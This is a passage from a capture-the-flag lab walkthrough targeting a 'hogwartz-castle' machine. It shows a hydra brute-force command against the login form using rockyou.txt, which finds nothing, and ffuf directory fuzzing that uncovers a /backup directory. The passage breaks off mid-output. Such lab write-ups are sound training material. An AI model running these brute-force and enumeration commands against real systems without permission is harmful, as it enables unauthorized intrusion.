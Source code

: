 We got a subdomain, let's add it to `/etc/hosts`:

```
echo '10.10.196.103 hogwartz-castle.thm' | sudo tee -a /etc/hosts
```

If we go inside the subdomain, we can check this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404171657.png)

We got the login page, based on that, we can craft the following hydra command to bruteforce:

```
hydra -l Hagrid -P /usr/share/wordlists/rockyou.txt hogwartz-castle.thm http-post-form "/login:user=^USER^&password=^PASS^:F=Incorrect Username or Password" -t 40
```

Unfortunately for us, nothing came from the scan, either with the other wordlist or other username, seems like bruteforcing may not be the way, what about fuzzing, we forgot fuzzing in the main page:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://castle.thm/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://castle.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
backup                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 399ms]
```

We got a `/backup` directory, let's keep a bit further:

```

    ~  ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://castle.thm/backup/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://castle.thm/backup/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
```